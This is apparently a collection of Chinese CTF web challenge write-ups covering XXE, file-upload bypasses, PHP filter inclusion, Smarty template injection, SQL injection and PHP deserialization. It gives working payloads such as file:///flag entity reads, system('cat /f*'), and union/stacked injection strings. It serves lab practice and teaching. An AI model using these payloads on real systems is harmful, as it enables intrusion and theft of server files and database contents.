




## BUU XXE COURSE 1

先随便填什么，发现没啥玩意，然后F12查看一下有什么东西



由`XMLFunction()`可以查找到有关的漏洞xxe

遇事不决，抓包解决



符合xxe漏洞,说明存在XXE-XML漏洞

payload：

```text
<?xml version="1.0" encoding="UTF-8"?>#XML声明：标准头部，定义版本和编码。
<!DOCTYPE root[
<!ENTITY admin SYSTEM "file:///flag">
]
<root>/*DOCTYPE定义：声明一个名为admin的外部实体，指向URI file:///flag（服务器本地的/flag文件）。*/
  <username>&admin;</username>#实体引用：&admin;会将file:///flag文件内容动态替换到<username>标签中。
  <password>123456</password>
</root>
```



## Upload-Labs-Linux

一和二

抓包修改后缀，后蚁剑连接

三

改.php2  .php3

四

用.htaccess文件

.htaccess文件解析漏洞

即可以将所有的文件解析成php文件进行运行

大佬的理解：不让带熟食进去吃，就带原料进去做好了再吃

五

后缀大小写绕过

六

空格绕过 ，文件名前加空格

七

所有可以解析的后缀都被限制了，只能构造特殊后缀，可以看到空格也被过滤了，但是用了strrchr函数查找点号最后一次出现，所以可以构造.php.为后缀，进行绕过（win系统会自动去除点号，liunx则不会，但点号最后为非法

八

和上一题对比少了**::$DATA**

**在windows环境下，不光会自动去除文件末尾的点和空格，同时(::$DATA)这个字符串，windows也会认为是非法字符，默认去除掉**

.php**::$DATA**

九

deldot()函数从后向前检测，当检测到末尾的第一个点时会继续它的检测，但是遇到空格会停下来

##### .php. .

十

`$file_name = str_ireplace($deny_ext,&quot;&quot;, $file_name);`

`str_ireplace` 函数，它的功能是替换字符串中的子串，并且不区分大小写。

简单来说这个代码就是把黑名单的东西匹配为空字符，可以试试双写绕过

##### .pphphp

十一

嘶，根本弄不进去，看wp是get00截断，（但是我还是弄不进去。

00截断：  
当 PHP 在处理文件名或路径时，如果遇到 URL 编码的 %00，它会被解释为一个空字节（ASCII 值为 0）。在php5.3以前，PHP 会将这个空字节转换为 \000 的形式。

而恰恰在php5.3以前，文件名出现\0000,会导致文件名被截断，只保留%00之前的部分。

这是因为php语言的底层是c语言，而\0在c语言中是字符串的结束符，所以导致00截断的发生

## [BSidesCF 2020]Had a bad day

观察只发现了一个注入点/index.php?category=

Woofers和Meowers，我们可以考虑伪协议



```text
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !**  false || strpos( $file, "meowers" ) !**  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
就是说要包含woofers或者meowers才能读取（第一次见到原来还能这样来过滤
```

```text
php://filter/read=convert.base64-encode/woofers/resource=flag  #注意加上woofers就ok了
```

## [CISCN2019 华东南赛区]Web11

看给的应该是说XXF和ip的关系

然后我们看到最下面的smarty查了一下是个模板，那估计是模板注入了

他说了与XXF有关那我们就加个

X-Forwarded-For：{7*7}      发现id：49

然后我们试试{system("cat /f*")}

得到flag

## [GYCTF2020]Blacklist1

- # [GYCTF2020]Blacklist1

  查1'发现显示

  过滤了好多东西，看了大佬的wp可以使用堆叠注入

  试试show tables和show databases，发现FlagHere,(查数据库是一个伏笔

  slelect因为被过滤了，所以使用handler命令

  挨个用库试试,最后试到supersqli，下面就是语句了

  ```
  ?inject=1';                   -- 闭合原查询并结束语句
  use supersqli;                -- 切换到数据库 `supersqli`
  HANDLER FlagHere OPEN;        -- 打开表 `FlagHere` 的句柄
  HANDLER FlagHere READ FIRST;  -- 读取表的第一行数据
  HANDLER FlagHere CLOSE;       -- 关闭句柄
  ```

  - **完整拼接后的SQL**（假设原查询为`SELECT * FROM table WHERE id='用户输入'`）：  
sql  
复制

    ```
    SELECT * FROM table WHERE id='1';
    USE supersqli;
    HANDLER FlagHere OPEN;
    HANDLER FlagHere READ FIRST;
    HANDLER FlagHere CLOSE;
    ```

## [RoarCTF 2019]Easy Calc

找到calc.php查看发现源码

```text
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '[', ']','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

我们来看看代码，emmm不能出现num，然后后面过滤了一堆

首先我们得绕过num的判断，php在解析字符串时，会删除空格，已经把一些非法变量名改为下划线（只改一次）；

那我们就可以在num前面加个空格来绕过` ? num=`

```text
过滤了$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '[', ']','\$','\\','\^'];这些
```

然后试了一下system发现没回显，用var_dump有回显

那我们可以尝试构造命令了

```text
? num=var_dump(scandir(chr(47))) //先查一下目录,找到了f1agg
? num=var_dump(readfile(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) //查看得到flag
```

## [SUCTF 2019]EasySQL（sql_mode的利用

### 

利用了sql_mode：

sql_mode是一组语法校验规则，个人理解是它可以设定一些sql的语法规则，常见的几个sql_mode如下：

| sql_mode的值 | 作用 |
| --- | --- |
| ONLY_FULL_GROUP_BY | 对于GROUP BY聚合操作，如果在SELECT中的列，没有在GROUP BY中出现，那么这个SQL是不合法的，因为列不在GROUP BY从句中 |
| NO_ZERO_DATE | mysql数据库不允许插入零日期，插入零日期会抛出错误而不是警告 |
| ERROR_FOR_DIVISION_BY_ZERO | 在insert或update过程中，如果数据被零除，则产生错误而非警告。如果未给出该模式，那么数据被零除时Mysql返回NULL |
| PIPES_AS_CONCAT | 将 \\|\\| 视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样是，也和字符串的拼接函数concat相类似 |
| ANSI_QUOTES | 不能用双引号来引用字符串，因为它被解释为识别符 |

那么我们将sql_mode的值设为PIPES_AS_CONCAT时，后端查询语句就相当于：

```text
select concat($_POST['query'],flag) from flag
```

那么构造payload如下：

```text
1;set sql_mode=PIPES_AS_CONCAT;select 1
```

其中1可以换成任意数字

这个构造会使得后端语句变成这样：

```text
select 1;
set sql_mode=PIPES_AS_CONCAT;
select concat(1,flag) from flag;
```

为了方便查看我将这段分为三行，实际上他们处在同一行，因为第一行的分号将语句分隔了，所以我们在第三行要补上一个select

同时需要注意，这里写concat只是方便理解，实际上它还是 1||flag，只是 || 这是并不是 或，而是用作字符串连接

最终得到flag：（将1去掉即可）

## [SWPU2019]Web11

先注册，再登入

然后在广告那里发现注入点

经测试发现过滤了

```text
空格,or，#，+，-，and,information_schema,注释可以引号闭合，order by可以用group by，
```

payload

```text
查回显-1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
查个表-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
构造-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

## [ZJCTF 2019]NiZhuanSiWei

```text
首先进入界面的是
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

解读一下，先是要让text==welcome to the zjctf  
然后file不能读取flag，但应该可以伪协议一下  
再看到最后的unserialize说明存在一个需要我们序列化的操作  
file_get_contents — 将整个文件读入一个字符串，说明我们要让其写入进去就不能简单的赋值，可以采用data://text/plain

就是`?text=data://text/plain,welcome to the zjctf`

然后就是关于file这个点给了个useless.php，直接写上去没用，那我们这里直接用伪协议读出来了

```text
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo
解码一下是
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 是我们意料之中的序列化，存在着一个password
include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
所以就是直接就是写

<?php  

class Flag{  //flag.php  
    public $file="flag.php";   
}  
$a=new Flag();
echo serialize($a);
?> 查看源代码获得flag
```

## [网鼎杯 2020 朱雀组]phpweb

发现回暖自动刷新

抓包发现两个参数func和p

猜一下这个应该是有东西的，应该是前面为函数后面为值

system应该是被ban了但是highlight_file没ban

func=highlight_file&p=index.php

```text
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

可以看到我们运气还是不错的ban了那么多

看到这就有两种方法了

```text
1 是利用in_array
这个在in_array()方法执行时，可以使用\绕过，例如system函数改为\system
所以我们有
func=\system&p=ls
找一下flag  
func=\system&p=find / -name flag*
func=\system&p=cat /tmp/flagoefiu4r93
```

第二种

是利用反序列化（因为没ban

```text
<?php
    class Test {
        public $func;
        public $p;
    }
    
    $tmp = new Test();
    $tmp->func = "system";
    $tmp->p = "ls";
    
    echo serialize($tmp)
?>

func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:18:"find / -name flag*";}
```
